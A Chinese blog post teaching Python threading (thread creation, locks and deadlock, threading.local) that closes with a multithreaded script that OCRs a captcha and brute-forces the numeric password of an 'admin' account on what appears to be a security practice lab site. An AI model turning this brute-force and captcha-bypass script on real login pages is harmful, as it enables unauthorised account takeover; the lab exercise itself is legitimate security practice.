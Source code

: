 ```yaml
---
layout: post
title: 	Python多线程
category : python
tags : [python, threading, pytesseract]
stickie: true
---
```


0x01 创建多线程
---

通常有两种方式添加多线程，一种是`import thread`，另一种是`import threading`，我们主要使用后者，因为后者的功能更加全面。

```python
import threading
import time
 
def thread():
	...
t = threading.Thread(target=thread)
 
t.start()
t.join()
```

`start`是启动线程，`join`是阻塞当前线程，即使得在当前线程结束时，不会退出。

0x02 线程锁
---

首先我们要了解什么是死锁。假设有两个全局资源，a和b，有两个线程`thread1`，`thread2`。` thread1`占用a，想访问b，但此时`thread2`占用b，想访问a，两个线程都不释放此时拥有的资源，那么就会造成死锁。

为了解决这个问题，就要使用`Lock`。 当访问某个资源之前，用`Lock.acquire()`锁住资源,访问之后，用`Lock.release()`释放资源。

0x03 ThreadLocal
---

`threadlocal`是为了解决线程中全局变量的问题。通过在线程中定义：`local = threading.local()`，此时这个`loca`l就变成了一个全局变量，但这个全局变量只在该线程中为全局变量，对于其他线程来说是局部变量，别的线程不可更改。

我用多线程写了这样一个破解脚本解决了这个问题[逗比的手机验证码](http://lab1.xseclab.com/vcode5_mobi_5773f3def9f77f439e058894cefc42a8/)，用多线程的话破解速度非常的快基本上只用了几秒钟。另外这个脚本中添加了验证码识别，使用python做验证码识别真的非常简洁，但是识别率根据图像变化很大的，有的图很难识别出来。就目前来看是个非常鸡肋的功能。

```python
import requests
import re
import threading

import pytesseract
from PIL import Image

url = r"http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/index.php"
login = r"http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/login.php"
v4_session = requests.Session()
url_content = v4_session.get(url).content  
print url_content

#验证码识别
def vcode():
	pic_url = re.findall(re.compile(r'<img src="(.*?)">'), url_content)
	pic= requests.get(pic_url[0], timeout=10)  
	f = open('C:\Python27\code.jpg', 'wb')  
	f.write(pic.content)  
	f.close() 
	im = Image.open('C:\Python27\code.jpg')
	text = pytesseract.image_to_string(im)

	if len(text) == 4:
		return text
	else:
		return 0


flag = False
first = 1000
second = 10000
lock = threading.Lock()
code = vcode()
print code

#多线程破解
def thread():
	global flag
	global first
	global second

	while not flag:
		lock.acquire()
		first = first + 1
		lock.release()
		
		data = {'username':'admin', 'pwd':first, 'vcode':code,'submit':'submit'}
		header = {'Cookie': 'PHPSESSID=a07cfae155b086fc57776e9d1e78721f'}
		f = v4_session.post(login, data=data, headers = header)  
		if 'error' not in f.content:
			print first
			print f.content
			flag = True
			break
		else:
			print 'try: ',first

#创建线程
threadNum = 10 
threadlist = []  
for i in range(threadNum):  
    threadlist.append(threading.Thread(target = thread))  
  
for i in threadlist:  
    i.start()  
for i in threadlist:  
    i.join()
```